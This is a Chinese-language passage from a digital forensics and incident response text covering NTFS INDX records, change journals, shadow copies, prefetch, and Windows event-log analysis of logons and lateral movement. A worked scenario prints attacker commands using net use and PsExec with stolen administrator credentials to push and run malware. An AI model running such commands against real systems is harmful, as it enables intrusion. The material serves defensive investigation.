- **analyzeMFT** [github.com/dkovar/analyzeMFT](http://github.com/dkovar/analyzeMFT)
另一个MFT解析实用程序，能够将条目转换为CSV和Sleuthkit体文件格式。如果mft2csv无法成功转换给定的MFT，请尝试使用此工具（反之亦然）。
- **plaso** [plaso.kiddaland.net](http://plaso.kiddaland.net/)
一个功能强大的时间轴分析引擎，可以整合来自Sleuth Kit和众多其他元数据来源的证据。该工具旨在取代流行的log2timeline实用程序。

#### **INDX属性**

高效的文件系统应该能够快速查找目录的内容，以确定文件是否存在。但是，请记住，MFT条目仅记录其直接父目录的记录号。这使得枚举给定目录的内容效率低下-至少，您需要识别目录的记录编号，然后查看每个MFT条目，以识别具有匹配父记录编号的任何内容。

为了优化这个过程，NTFS提供了一种特殊的属性$INDX（也称为$I30），仅适用于目录。INDX属性维护一个B+树，其节点跟踪给定目录的内容；通过遍历此树，可以快速枚举目录的内容或找到感兴趣的文件。INDX记录可能驻留在目录的MFT条目内-这被称为INDEX_ROOT属性，表示B树的根节点。非常驻的INDX记录称为INDEX_ALLOCATION，包含有效地描述目录内容的子节点。

- 注意：
  
    如果您曾经在取证镜像中对文件名进行字符串搜索，并在目录、$I30文件或以“INDX”为标题的磁盘松弛数据中获得“命中”，则已经遇到了INDX属性的工作方式。
    

那么分析这些晦涩的INDX属性有什么意义呢？我们不能通过检查MFT来识别任何给定目录的内容吗？当然可以，但是INDX属性中的松弛空间可能会产生已删除文件的证据，这些文件不再在MFT中跟踪。具体而言，文件系统将INDX分配属性分配给固定的4,096字节块。当文件添加到目录中时，分配属性必须跟踪更多的项目，并且可能增长到8,192字节，然后是12,288字节等等。当文件被删除时会发生什么？B+树子节点将重新平衡，但旧文件的残留物可能仍然存在于结果松弛空间中-分配属性不会动态收缩。

INDX属性条目（包括松弛空间中的条目）特别好的一点是它们包含与MFT中的文件名属性相同的元数据，包括：

- 文件名
- 父目录MFT记录编号
- 所有四个MACE时间戳
- 物理和逻辑文件大小

可以恢复INDX松弛空间中的可恢复条目的寿命取决于给定目录内文件“翻转”的频率和容量。通过解析INDX记录，我们已经成功地识别了从用于数据盗窃的RAR存档到恶意软件安装程序和其他临时文件的一切遗留物-但是当攻击者的工作目录不经常使用时，通常会发生这种情况。如果攻击者在用户的%TEMP%目录或诸如%SYSTEMROOT%之类的路径中设置文件，您不应该指望从INDX松弛中恢复太多数据。

关于这个相当复杂的主题的进一步阅读，Mandiant的Willi Ballenthin和Jeff Hamm在获取和分析INDX记录方面有一个出色的四部曲博客文章：

- **GO GET IT ON THE WEB**
  
    [www.mandiant.com/blog/striking-gold-incident-response-ntfs-indx-buffers-part-1-extracting-](http://www.mandiant.com/blog/striking-gold-incident-response-ntfs-indx-buffers-part-1-extracting-)
    indx
    

Willi还编写了一个有用的Python脚本，称为INDXParse，可以解析NTFS INDX记录并输出CSV或bodyfile格式。

- **GO GET IT ON THE WEB**
  
    [github.com/williballenthin/INDXParse](http://github.com/williballenthin/INDXParse)
    

图12-5显示了INDXParse生成的输出示例。

Mandiant的免费的现场响应分析工具Redline也可以配置为在其文件枚举收集器选项中收集和解析INDX记录（参见图12-6）。


#### 更改日志

NTFS是一种可恢复和日志记录的文件系统，因此它维护了几个旨在跟踪目录和文件更改的日志。这些日志中的数据可以用于在发生故障时撤消文件系统操作。对于取证调查员来说，它们也可以作为文件系统活动的有用证据来源-特别是在攻击者试图删除文件并掩盖其活动的情况下。在本节中，我们提供了最重要的日志记录的简要概述：$ Logfile和$ UsnJrnl。

NTFS日志文件名为$ LogFile，跟踪更改卷结构的所有交易。这包括文件或目录的创建/复制/删除，文件元数据的更改以及INDX记录的更改。实际上，$ LogFile中的事务条目包含与MFT中存在的属性相同的属性。$ LogFile位于每个NTFS卷的根目录中，通常默认为64MB。日志是循环的，并且可以经常滚动，特别是在系统卷上。与MFT和其他NTFS工件一样，您需要使用提供原始磁盘访问的取证实用程序从运行中的系统中复制$ LogFile。

更新序列号（USN）日志名为$ UsnJrnl，提供了对卷更改的高级摘要。给定条目包括发生的更改事件类型，相应的时间戳，文件名，其属性以及文件和其父目录的MFT条目标识符。日志位于路径$ Extend $ UsnJrnl中。您可能不会在每个卷上找到USN日志，因为NTFS并不严格要求它。但是，许多常见的Windows服务，例如索引/搜索服务和文件副本服务，都需要并启用它。与$ LogFile一样，$ UsnJrnl是循环日志，并且在系统卷上可能经常滚动。在实践中，$ UsnJrnl通常比$ LogFile保存更长时间的文件系统更改历史记录，因为其条目跟踪的数据少得多。有关USN日志和Microsoft的fsutil实用程序的其他详细信息，请访问以下链接：

:::▶**GO GET IT ON THE WEB**

[msdn.microsoft.com/en-us/library/aa365722.aspx](http://msdn.microsoft.com/en-us/library/aa365722.aspx)[technet.microsoft.com/en-us/library/cc788042(v=ws.10).aspx](http://technet.microsoft.com/en-us/library/cc788042(v=ws.10).aspx)

:::

以下免费工具可帮助您解析和解码$ LogFile和$ UsnJrnl工件：

:::▶**GO GET IT ON THE WEB**

**LogFileParser** [code.google.com/p/mft2csv/wiki/LogFileParser](http://code.google.com/p/mft2csv/wiki/LogFileParser)**TZWorks Journal Parser** [tzworks.net/prototype_page.php?proto_id=5](http://tzworks.net/prototype_page.php?proto_id=5)**parser-usnjrnl** [code.google.com/p/parser-usnjrnl](http://code.google.com/p/parser-usnjrnl)

:::

#### 卷影副本

卷影副本（VSC）服务提供了一种维护文件的点对点副本（也称为“快照”或“还原点”）的机制，此服务针对整个卷。 Windows Server 2003和Windows XP在有限的情况下引入了VSC，以支持NT备份服务。 Windows Vista、Windows 7和Server 2008提供了更全面的VSC实现，以取代Windows XP的传统系统还原点功能。除了许多改进之外，它还支持“恢复以前的版本”功能，该功能允许用户将文件或目录回滚到以前快照的状态。

这里的一些术语可能会让人感到困惑。在VSC上下文中，“还原点”是系统的时点状态的快照。这与Windows XP中可用的传统“系统还原点”解决方案不同。XP实现不依赖于VSC，而是使用一种方法，即某些注册表键和具有某些扩展名的文件将自动复制到磁盘上的受保护路径。由于“野外”中XP系统数量的迅速减少，本章将仅专注于Windows Vista、7和Server 2008中的VSC实现。

检查卷影副本可能是恢复攻击者可能已删除或篡改的文件、注册表键和其他数据的有用方法。与其深入研究卷影副本的工作原理，我们将专注于分析此证据之前您应该知道的一些基本特征。重要的是要理解，VSC跟踪磁盘上数据块的更改而不是逻辑文件的完整性。挂载的卷影副本将显示为监视的卷的完整内容的镜像，但是服务仅存储在快照间隔期间发生更改的块。默认情况下，Windows将VSC快照在Windows 7上的卷大小的最大磁盘空间限制为5％，在Windows Vista上为15％。除了此空间限制之外，卷影副本中的数据可用性还受快照频率的限制。服务包安装、Windows更新和驱动程序安装可以自动触发快照的创建，用户/应用程序也可以手动请求快照。最后，系统还原服务可以通过计划任务每天自动创建快照。
正如您可能意识到的那样，VSC可以帮助您恢复可能已在系统的当前“实时”文件系统中删除或不存在的数据。例如，如果已知攻击者活动的日期和时间，您可能需要检查在此期间最接近拍摄的VSC的内容。这可能会产生文件、注册表蜂房中的数据，甚至是事件日志条目，这些条目否则将不再可用。

如何从影子副本中恢复数据？首先，您需要在Windows Vista或7系统上挂载证据-无论是磁盘映像还是驱动器。这将允许您使用卷影服务和相关工具与目标文件系统的卷影副本“镜像”交互。然后，在管理员命令提示符中，键入以下命令

```
vssadmin list shadows /for=[Volume_Letter]

```

这将列出卷上的每个卷影副本，并提供卷影副本ID、原始卷ID、卷影副本卷名称、原始主机名和其他属性。然后，您可以通过mklink创建符号链接将卷影副本挂载到您选择的目录中：

```powershell

mklink /D [target_directory] [Shadow Copy Volume]
```

请注意，链接的目标目录不能事先存在于磁盘上。您还必须确保在Shadow Copy Volume路径的末尾包含斜杠。图12-7显示了这些命令的输出结果。
快照时卷的整个文件系统的镜像——现在将在链接的目录中可用。
虽然在Windows系统上探索VSC内容所需的只有vssadmin和mklink，但有几个免费的工具可用于提供额外的分析功能或在其他操作系统上进行审查。我们建议使用以下工具：

- **GO GET IT ON THE WEB**
  
    **libvshadow** [code.google.com/p/libvshadow](http://code.google.com/p/libvshadow)
    用于与卷影快照数据交互的多平台库和工具。
    **Shadow Explorer** [www.shadowexplorer.com](http://www.shadowexplorer.com/)
    用于浏览卷影快照内容的易于使用的用户界面。**VSC Toolset** [dfstream.blogspot.com/p/vsc-toolset.html](http://dfstream.blogspot.com/p/vsc-toolset.html)
    通过它，你可以挂载阴影副本，浏览它们的内容，以及
    对它们执行批处理脚本。
    


#### **文件系统重定向器**

Windows提供了一个兼容子系统，Windows 32位于Windows 64位
（WoW64），以确保32位应用程序在64位操作系统上正常运行。
WoW64不仅必须确保32位应用程序能够访问正确的版本
DLL和其他依赖项，它还必须防止它们覆盖或
修改为其他64位应用程序设计的系统资源。一个这样的机制
这样做是“文件系统重定向器”——它可能对您的影响
调查过程。

64位版本的Windows为32位应用程序使用的文件和
依赖性维护单独的目录。如果32位应用程序尝试加载文件
从%SYSTEMROOT%\system32\，那么WoW64将透明地将其重定向到
目录%SYSTEMROOT%\SysWOW64\，其中包含适当的32位DLL。
应用程序不知道这种重定向并且无法“看到”实际的
%SYSTEMROOT%\system32\目录，这是64位应用程序保留的。
更多细节可在Microsoft Developer Network的以下链接中找到：

- **GO GET IT ON THE WEB**
  
    [msdn.microsoft.com/en-us/library/windows/desktop/aa384187(v=vs.85).aspx](http://msdn.microsoft.com/en-us/library/windows/desktop/aa384187(v=vs.85).aspx)
    

同样，Windows维护一个单独的Program Files目录，称为\Program Files（x86）\，用于32位应用程序，而64位通常使用正常的\Program Files\路径。

:::▶注意：

我们偶尔会看到攻击者在64位系统上无意中使用32位恶意软件滴答器/安装程序，随后“丢失”文件，这些文件随后下降到路径，如C:\Windows\SysWOW64\，而不是预期的C:\Windows\system32\。

:::

希望您已经意识到这可能会影响您在64位Windows系统上的调查过程和工具。如果您使用依赖Windows API列举文件和目录的32位工具，则它们将有效地“盲目”到仅对64位应用程序可访问的路径，例如C:\Windows\system32\。当然，如果您获取主文件表以重构文件系统，则不会受到重定向的影响——但仍应确保您的分析范围包括所有重定向路径集。WoW64还重定向对Windows注册表中几个广泛使用的路径的访问，但我们将在本章的“Windows注册表”部分提供更多详细信息。

### **预取**

预取是微软在Windows XP中引入的性能优化机制，旨在减少启动和应用程序加载时间。为了提供一些上下文，说明预取存在的原因及其作为证据来源的价值，我们需要简要介绍一下Windows内存管理的细节。

Windows缓存管理器是内存管理系统的一个组件，它监视从磁盘上的文件加载到运行进程的数据和代码。具体来说，它跟踪引导过程的前两分钟和所有其他应用程序启动的前10秒。然后，缓存管理器与任务计划程序一起将这些跟踪结果写入预取文件。下一次系统启动或执行“预取”应用程序时，缓存管理器可以像“作弊纸”一样使用这些预取文件来加速加载过程。

#### **证据**

预取文件存储在% SYSTEMROOT％\Prefetch中。在此目录中，您将找到以下文件：

- **[NTOSBOOT-B00DFAAD.pf](http://ntosboot-b00dfaad.pf/)** 系统引导预取。它总是具有相同的名称。在Windows服务器上，默认情况下只会存在此预取文件。
- **Layout.ini** 包含磁盘碎片整理器使用的数据。
- **AppName-########.pf** 最多128个应用程序特定的预取文件，[每个文件都有扩展名.pf](http://xn--ciq4sf6jj9jj0h0yei3ch6nul1g.pf/)，并且每个文件代表至少运行一次的可执行文件。这些文件的名称是通过将可执行文件名称、短横线和从文件路径派生的32位十六进制哈希连接而成的。这意味着，如果从两个不同的路径运行相同的可执行文件，将会有两个不同的预取文件。

图12-8显示了在FTK Imager中加载的驱动器映像上C：\ Windows \ Prefetch目录的部分内容。

:::▶注意：

如果您正在分析Windows Vista或Windows 7系统，则可能会看到遵循Ag * .db命名约定的一些其他文件，例如AgAppLaunch.db。这些文件是由Superfetch生成的，另一个可以与预取同时运行的性能优化机制。这些文件的格式未经记录，但研究人员已经开始分析它们的结构和内容（参考：[blog.rewolf.pl/blog/?p=214](http://blog.rewolf.pl/blog/?p=214)）。

:::




有时我们会遇到Prefetch目录中没有预取文件的系统。在这种情况下，检查包含大部分预取设置的注册表键可能会有所帮助：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\
Control\Session Manager\Memory Management\PrefetchParameters。该键中的两个值特别重要：

- **EnablePrefetcher** 控制Prefetcher操作。设置如下：
1-禁用预取；2-预取启动文件；3-预取所有应用程序。在服务器和带有固态硬盘的系统上，预取通常被禁用。
- **HostingAppList** 指定加载其他可执行模块的特殊Windows应用程序，例如DLLHOST.EXE、MMC.EXE和RUNDLL32.EXE。预取器将已加载的模块合并到这些应用程序的预取哈希值中。

请注意，即使将EnablePrefetcher设置为3，Windows也不会创建无限数量的预取文件——最大数量为128。

#### **分析**

既然我们已经讨论了Windows如何创建和使用预取文件，您希望意识到它们如何成为法医证据的宝贵来源。无论原始可执行文件是否仍在磁盘上，预取文件都作为系统上已执行的程序的记录。正如我们将在本节中讨论的那样，预取文件的存在不仅证明应用程序已运行，还可以确定它运行的时间、次数和路径。

分析预取文件的最简单方法是查看它们的标准信息时间戳。文件创建日期表示对应应用程序第一次运行的时间。最后修改日期表示它最近执行的时间。当然，我们受到预取文件名不提供路径信息的限制。一个名为EXPLORER.EXE-A840CB32.pf的预取文件可能已为合法的%SYSTEMROOT%\Explorer.exe或C:\path\to\evil\Explorer.exe创建。通过分析预取文件本身的内容，您可以获得这个重要的证据，以及其他有用的数据。

那么预取文件中还有哪些额外的证据呢？最有用的是应用程序在执行后的前10秒内加载的文件的完整路径列表，包括卷。这包括可执行文件本身，从而使您能够确定它在磁盘上的确切位置。这可能很重要——在预取中的C:\Users\JohnDoe\svchost.exe比C:\WINDOWS\system32\svchost.exe更可疑。访问的文件列表还将包括应用程序依赖项（如已加载的DLL）和可能用于输入或输出的文件。

- 注：
  
    NTOSBOOT预取文件是这个10秒“规则”的唯一例外。它监视引导过程的前两分钟访问的文件。
    

图12-9显示了NirSoft的WinPrefetchView实用程序中显示的pwdump2x.exe密码转储实用程序的预取文件。请注意，它的解析内容包括对实用程序输出被重定向到的文件pwdump_out.txt的引用。在分析“主机”应用程序的预取文件时，这种数据可能也很有用。例如，攻击者可能使用rundll.exe在恶意DLL中安装或启动代码。因为rundll.exe是HostingAppList注册表值中列出的可执行文件之一，您可能会找到多个rundll.exe的预取文件——解析每个预取文件中的访问文件列表可能有助于将合法使用与恶意使用区分开来。

- 注：
  
    在调查中，我们经常会批量获取和解析多个系统上的预取文件，然后按路径进行排序和过滤。这是发现先前未知的二进制文件在从未被合法程序使用的路径（例如系统卷信息和回收站）内执行的证据的好方法。
    


每个预取文件也包含一个计数器，每当其对应的应用程序执行时就会递增。这也非常方便——在最近的一次调查中，我们观察到攻击者的Rar.exe副本的预取文件表明，在两个月的时间内已经启动了数十次。当与其他证据来源相结合时，这有助于支持我们的发现，即入侵者在系统上进行了大量的数据分期和窃取。

- 注意：
  
    如果你从一个备用数据流中运行可执行文件（仅支持Windows XP及更早版本），会在预取目录中创建一个与主文件流同名的文件。它将包含一个ADS，这是实际的预取数据，并遵循正常的命名约定。例如，运行C:\ Windows:evil.exe（“windows”目录的ADS）可能导致创建预取文件C:\Prefetch\Windows：evil.exe-A02B49FF。
    
    ::：
    
    最后，预取文件包含一个上次运行时间的日期和时间。为什么这可能与预取文件本身的最后修改时间不同？你可能经常发现，最后运行时间大约比最后修改时间早10秒。这很可能是由程序执行、缓存管理器监视其加载活动的前几秒钟以及预取文件最终被写入/更新到磁盘之间的延迟所导致的。
    
    **预取分析工具**
    
    预取文件包含专有格式的二进制数据。已知细节在Forensics Wiki的以下链接上记录：
    
    - **获取它在网络上**
      
        [www.forensicswiki.org/wiki/Windows_Prefetch_File_Format](http://www.forensicswiki.org/wiki/Windows_Prefetch_File_Format)
        

尽管您可以使用文件元数据（如创建和最后修改时间）来确定相应可执行文件的第一个和最近运行时间等基本信息，但您需要使用专用工具解析.pf文件，以获取编码数据，如运行计数器，可执行路径和访问的文件列表。我们发现以下三个工具在执行预取分析方面非常有用：

- **获取它在网络上**
  
    **WinPrefetchView** [www.nirsoft.net/utils/win_prefetch_view.html](http://www.nirsoft.net/utils/win_prefetch_view.html)**TZWorks Prefetch Parser** [www.tzworks.net/prototype_page.php?proto_id=1](http://www.tzworks.net/prototype_page.php?proto_id=1)**RedWolf Forensics Prefetch-Parser** [redwolfcomputerforensics.com/index](http://redwolfcomputerforensics.com/index)
    .php?option=com_content&task=view&id=42&Itemid=55
    

### **事件日志**

事件日志是由内置于Windows操作系统中的系统范围审计和监控机制生成的。通过审核这些日志，您可以执行以下任务：

- 识别成功和失败的登录尝试并确定它们的来源
- 跟踪系统服务的创建、启动和停止
- 跟踪特定应用程序的使用
- 跟踪审核策略的更改
- 跟踪用户权限的更改
- 监视已安装应用程序生成的事件（例如防病毒、数据库和Web服务器服务）

本节为您提供了在Windows系统上定位和获取事件日志所需的信息。然后，我们将花费本节的其余部分来重点介绍分析，重点关注我们通常发现在事件响应调查中最有用的日志条目类型。在此过程中，我们将演示事件日志如何帮助您调查横向移动、恶意软件执行和其他在受损的Windows环境中常见的活动模式。

#### **证据**

所有版本的Windows都维护三个“核心”事件日志：应用程序、系统和安全。与用户程序和商业现成应用程序相关的活动会填充应用程序日志。Windows审核的应用程序事件包括任何应用程序想要报告的错误或信息。基于主机的安全工具，如防病毒和入侵预防系统，经常将事件记录到此日志中。

Windows身份验证和安全处理将事件记录在安全日志中。此日志可能包括用户登录和注销尝试、帐户创建、用户特权或凭据的更改、审核策略的更改、进程执行以及文件和目录访问。本地或组策略设置可以配置确切地捕获和记录哪些安全事件。

系统事件日志记录各种核心操作系统组件报告的事件。其内容可以包括Windows服务事件、系统时间的更改、驱动程序的加载和卸载以及网络配置问题。

获取Windows事件日志是一个简单的文件获取任务。每个日志都存储在注册表键HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Eventlog中指定的路径中的单独文件中。在Windows XP、Windows Server 2003和早期操作系统上，默认的事件日志路径为：

- **应用程序**%SYSTEMROOT%\System32\Config\AppEvent.Evt
- **系统**%SYSTEMROOT%\System32\Config\SysEvent.Evt
- **安全**%SYSTEMROOT%\System32\Config\SecEvent.Evt

EVT文件采用专有格式，无法使用特殊工具进行读取或检查。

微软在现代版本的Windows中进行了事件日志系统的重大更改，从Vista和Server 2008开始。EVT文件被废弃，采用了一个新的基于XML的格式，使用扩展名.evtx。默认路径也略有更改，如下所示：

- **应用程序**%SYSTEMROOT%\System32\Winevt\Logs\Application.evtx
- **系统**%SYSTEMROOT%\System32\Winevt\Logs\System.evtx
- **安全**%SYSTEMROOT%\System32\Winevt\Logs\Security.evtx

微软还添加了第二类日志：应用程序和服务，这些日志由单独安装的应用程序或系统组件使用。这些日志也存储在位于目录%SYSTEMROOT%\System32\Winevt\Logs\中的EVTX文件中。任务计划程序、Windows防火墙、AppLocker、终端服务和用户访问控制是几个可以在此类别下维护其自己的日志（如果启用）的Windows功能的示例。尽管我们专注于主要的Windows日志，但我们将在本章后面提到一些其他日志如何有用。

#### **分析**

与注册表一样，每个Windows版本生成的各种事件类型及其含义的整本书都可以编写。对于本章的范围，我们重点关注在调查事件时最有用的一些事件。

##### **了解事件ID（EID）**

Windows事件日志中跟踪的每个事件类型都有一个相关联的ID值。当您尝试研究、筛选或交叉引用日志条目时，这些ID常常比事件消息本身更有用。覆盖可能具有法医学相关性的数百个EID超出了本章的范围。幸运的是，微软提供了一个有用的搜索引擎，称为“事件和错误消息中心”，可以查询。

- **获取它在网络上**
  
    几个第三方网站维护Windows事件ID的数据库，[包括www.myeventlog.com和www.eventid.net](http://xn--www-k82e104e.myeventlog.xn--comwww-k76j.eventid.net/)。尽管这些站点经常缺乏应用程序和服务日志的事件ID覆盖范围，并且不受微软的官方支持，但它们可以作为有用的起点。
    

搜索引擎不仅允许您查找有关您不熟悉的EID的信息，还可以允许您搜索包含某些文本或由某些源生成的事件。

- 警告：
  
    请注意，Microsoft在NT Kernel 5（2000、XP、2003）和6（Vista、7、2008）之间更改了某些（但不是全部）事件类型的EID。新的EID通常（但不总是）等于旧值加上4096（例如，成功的网络登录从540更改为4624，而服务启动/停止事件仍保持为EID 7036）。不一致性万岁！
    

##### **理解登录事件**

几乎所有Windows调查都将包括跟踪和分析登录事件。您可能需要证明合法用户如何访问自己的系统，或者恶意攻击者如何远程访问它。您可能需要跟踪密码暴力破解的失败登录尝试，或者您可能需要确定如何在整个环境中重复使用已被攻击的帐户。幸运的是，安全事件日志可以满足所有这些需求。

让我们看一个登录事件的示例，并讨论每个关键字段的含义。这个特定的示例来自Windows XP工作站，但您也可以在后续版本的Windows中找到相同的信息：

```

事件ID：540
网络登录成功：
用户名：管理员
域：CORPDOMAIN
登录ID：（0x0，0x3E2C4E73）
登录类型：3
登录进程：NtLmSsp
身份验证包：NTLM
工作站名称：laptop1022
来源网络地址：10.0.1.13

```

只是一个简单的登录事件就有足够的神秘术语。以下是这些字段的定义：

- **用户名** 用于登录的帐户。
- **域** 与用户名相关联的域。如果用户名是本地帐户，则此字段将包含系统的主机名。
- **登录ID** 独特的会话标识符。您可以使用此值作为搜索术语或过滤器，以查找与此特定登录会话相关的所有事件日志条目。
- **登录类型** 引用用户发起的登录类型的代码。以下表提供了Logon Type字段及其可能值的进一步详细信息：

| 类型 | 代码 | 类型 | 代码 |
| --- | --- | --- | --- |
| 交互式 | 2 | 解锁 | 7 |
| 网络 | 3 | NetworkCleartext | 8 |
| 批处理 | 4 | NewCredentials | 9 |
| 服务 | 5 | RemoteInteractive | 10 |
| 代理 | 6 | CacheInteractive | 11 |

以下是每种类型的简要描述：

- **交互式** 用户从控制台登录（例如，从主机机器的键盘登录），通过RunAS命令或从基于硬件的远程访问解决方案（例如KVM）登录。
- **网络** 用户通过网络登录。通过“net use”命令安装共享或通过IIS集成身份验证登录Web服务器都是会生成网络登录的活动示例。
- **批处理** 由计划任务生成的登录会话。
- **服务** Windows服务使用其配置的凭据登录。
- **代理** Microsoft将其定义为“代理类型登录”。我们尚未在野外看到此类事件，也没有任何说明它如何生成的文档。
- **解锁** 用户解锁了系统（例如，从屏幕保护程序恢复后）。
- **NetworkCleartext** 通常在Web服务器上的基本身份验证登录中生成。
- **NewCredentials** 用户为远程连接（例如通过RunAs命令）假定了不同的凭据集。
- **RemoteInteractive** 用户通过终端服务，远程协助或远程桌面登录。
- **CacheInteractive** 用户使用已通过本地缓存数据进行验证而不是联系域控制器的域凭据登录。

更多详细信息请访问以下链接：

- **在网上获取**
  
    [www.microsoft.com/technet/support/ee/transform.aspx?ProdName=Windows+Operating+](http://www.microsoft.com/technet/support/ee/transform.aspx?ProdName=Windows+Operating+)
    System&ProdVer=5.0&EvtID=540&EvtSrc=Security&LCID=1033
    

现在，让我们恢复对登录事件字段的查看：

- **登录进程** 启动登录事件的进程。常见选项包括NtLmSsp、Kerberos、User32和Advapi。
- **身份验证包** 用于处理登录事件的安全和身份验证协议。常见选项包括NTLM、Kerberos和Negotiate。
- **工作站名称** 登录来源的源系统。这不总是在事件日志条目中捕获。
- **来源网络地址** 登录来源的源IP地址。这不总是在事件日志条目中捕获。

登录类型字段在搜索或过滤安全事件日志时可能是一个有用的数据点。如果你知道攻击者使用窃取的凭据通过“net use”命令访问系统，你可能可以忽略来自“解锁”和“控制台”登录的正常系统使用的噪声。如果一个应用程序服务帐户从未被允许进行交互式登录，你可能想专注于带有其凭据的远程交互式登录事件。

- 注意：
  
    你的环境是否使用了VNC或其他屏幕共享远程访问程序？如果是，请注意这些实用程序实际上模拟了对系统的本地访问。它们使用过程中的登录事件通常是交互式或解锁，而不是远程交互式。
    

##### **调查横向移动**

在受损的Windows环境中，攻击者通常利用窃取的有效凭据（本地或域）从系统到系统移动，这个过程称为“横向移动”。许多环境使用所有系统或子集（例如区域内的所有工作站）的常见本地管理员密码。如果攻击者入侵了单个系统并获得了这样的凭据，他们可以自由地从一个主机移动到另一个主机。更糟糕的是，如果攻击者获得了域管理员或等效帐户的访问权限，他们可能能够自由访问域内的任何系统（除了任何网络层限制）。

调查此类横向移动的挑战之一是它可能与正常的Windows活动混合在一起。这对于允许应用程序服务帐户或特权域帐户建立网络和交互式登录的环境特别适用，通常由“人类”使用。你可能会发现自己试图在一堆日常运营的合法“噪声”中寻找攻击者使用这些凭据的登录证据。

让我们利用你所学的登录类型来说明常见的横向移动方法和每种方法产生的证据：

- 我们的攻击者Bob通过一个持久的后门具有Windows 7工作站alpha的交互访问权限。
- Alpha加入了公司域ACME。
- 后门在拥有alpha的域用户的上下文中运行，即ACME\Eve。
- 通过密码转储和其他入侵活动，攻击者已经获得了两个帐户的凭据：
    - 一个本地管理员localAdmin，在ACME域内的每台工作站上都配置有相同的密码
    - 一个域管理员ACME\domainAdmin，可以访问环境中所有工作站和服务器

Bob使用后门在ACME\Eve的上下文下调用命令shell。然后他使用各种命令，结合帐户localAdmin和ACME\domainAdmin的凭据，以不同的方式访问了四个系统：

1. 他从源系统alpha挂载工作站beta的C$共享，以传输恶意软件和工具，使用以下命令：

```
net use \\\\beta\\c$ /u:localAdmin "badPassword"

```

1. 他使用SysInternals PSExec实用程序从源系统alpha远程执行命令，在工作站gamma上执行，再次使用以下命令：

```
psexec.exe  \\\\gamma -u ACME\\domainAdmin -p worsePassword "C:\\
path\\to\\malware.exe"

```

1. 他再次使用Windows内置的远程桌面客户端（用户名ACME\domainAdmin，密码worsePassword）从源系统alpha建立远程桌面连接到服务器zeta。
2. 他浏览了一个需要NTLM身份验证的IIS内部网站delta。Bob使用ACME\domainAdmin凭据。

这些操作将导致登录事件，但是它们是什么类型的登录事件，以及在哪里记录它们？

- 操作1将在beta上生成登录类型3（网络）记录，因为使用了本地帐户。
- 操作2将在beta和ACME域控制器上生成登录类型3的记录，因为使用了域帐户。此外，将记录一个“使用显式凭据尝试登录”的事件（EID 4648），该事件将在alpha上记录，并引用攻击者使用的凭据ACME\domainAdmin和目标系统beta。由于PsExec在与攻击者当前会话（ACME\Eve）不同的域凭据下使用，因此会生成此事件。
- 操作3将在zeta和ACME域控制器上生成登录类型10（RemoteInteractive）记录。
- 操作4将在delta和ACME域控制器上生成登录类型3的记录（由于使用IIS身份验证）。

这些示例说明了不同登录机制和使用本地与域帐户对生成的事件类型以及可以找到此类证据的系统的影响。当你在大型环境中进行调查时，这可能会产生重大影响，特别是如果攻击者大量利用本地帐户，因为跟踪横向移动可能需要检查每个系统上的日志。

- 注意：
  
    横向移动的Kerberos身份验证事件通常不包括源系统或IP地址。但是，使用Kerberos的网络登录通常紧随源系统的机器帐户登录。注意这些事件，以帮助确定Kerberos身份验证尝试的起源。
    

在事件日志中确定合法与可疑活动可能很困难，特别是在调查的早期阶段，当你可能拥有最少的线索时。在检查特定时间段的日志并识别感兴趣的事件时，请确保对整个日志历史记录进行检查，以确定它们有多么常见或不常见。例如，在攻击者活动的时间范围内方便出现的服务事件可能会经常发生，而过度专注于单个时间窗口时通常会忽略这些上下文。聚合和检索登录事件以确定源系统和帐户在正常活动期间最常使用也通常很有帮助。这可以帮助在繁忙的系统中使使用有效凭据进行的异常登录更加明显。

##### **审计帐户和安全设置的更改**

安全日志中的几种事件类型记录了用户帐户和安全策略的更改。审查这些事件可以帮助你确定攻击者是否篡改了系统的安全设置：

```
◦ 帐户管理事件指示用户帐户是否已创建、删除、启用或禁用，以及帐户组的类似变化。

◦ 策略更改事件捕获对系统安全设置的更改，包括指定在事件日志中记录什么的审计策略。

◦ 记录“已清除审核日志”的事件，无论审核设置如何，当用户清除事件日志时都会记录该事件。此消息包括负责更改的用户名。

```

##### **进程跟踪**

进程跟踪，也称为详细跟踪或进程审计，每次进程执行或终止时在安全事件日志中生成一个事件。这些事件包括磁盘上可执行文件的完整路径、进程ID、父进程ID以及它执行时关联的登录ID。这些证据可以提供指定时间段内用户执行的所有内容的详细记录。默认情况下，未启用此审核设置 - 你必须在本地审核策略或通过组策略对象中打开它。

有时，我们希望进程跟踪记录更多的细节。尤其是，进程跟踪事件不包括进程参数和父进程名称。有许多情况下，这两个信息将是非常有价值的，特别是当攻击者使用命令行工具时。例如，如果攻击者使用命令行工具在窃取之前压缩数据，你将看到源目录和目标目录，甚至可能会看到密码（如果使用了密码）。

图12-10显示了一个进程创建事件的示例，其中帐户winterfell\ryankaz执行了C:\Windows\system32\mmc.exe。


- 注意：
  
    请注意，审计过程跟踪将导致记录事件的数量显着增加。如果您启用了此功能，请确保增加最大安全事件日志设置，以确保日志不会达到容量并且不会过于频繁地回滚。在某些情况下，处理跟踪可能会对性能产生严重影响，因此请确保在将其启用于任何关键系统之前测试此设置。
    
    ::：
##### **分析服务事件**
Windows服务经常用作通用和有针对性恶意软件的持久性机制。此外，非持久性恶意软件通常会将自己安装为运行在特权上下文下的“临时”服务。幸运的是，每次启动或停止服务时，服务控制管理器（SCM）都会在系统事件日志中创建一个条目。
    
当显式启动服务时（例如，在其初始安装时），SCM会记录一个事件，指示“[服务名称]服务成功发送启动控件”。此事件通常包括启动服务的用户帐户。一旦服务开始运行，SCM会记录“[服务名称]服务进入运行状态”的日志。服务停止的日志条目遵循类似的模式。例如，SysInternals PsExec实用程序在远程系统上安装自己为Windows服务。当PsExec会话结束时，服务将被终止，随后被卸载。以下表格说明了系统事件日志如何捕获此事件序列。
    
| 日期 | 事件ID | 事件描述 | 用户 |
| --- | --- | --- | --- |
| 2013年10月20日21:12:59 | 7035 | PsExec服务成功发送启动控制。 | CORPDOMAIN\Jane |
| 2013年10月20日21:12:59 | 7036 | PsExec服务进入运行状态。 | N/A |
| 2013年10月20日21:19:53 | 7035 | PsExec服务成功发送停止控制。 | CORPDOMAIN\Jane |
| 2013年10月20日21:19:53 | 7036 | PsExec服务进入停止状态。 | N/A |
- 注意：
